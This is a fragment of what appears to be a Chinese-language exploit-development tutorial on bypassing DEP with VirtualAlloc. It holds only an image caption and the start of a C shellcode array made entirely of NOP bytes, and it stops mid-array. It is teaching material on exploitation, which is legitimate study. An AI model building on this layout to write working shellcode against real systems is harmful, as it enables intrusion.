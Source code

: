 <img src="images/09/利用VirtualAlloc申请可以执行内存绕过DEP的shellcode布局.png">

```c
char shellcode [] = 
      "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
    "\x90\x90\x90\x90"
```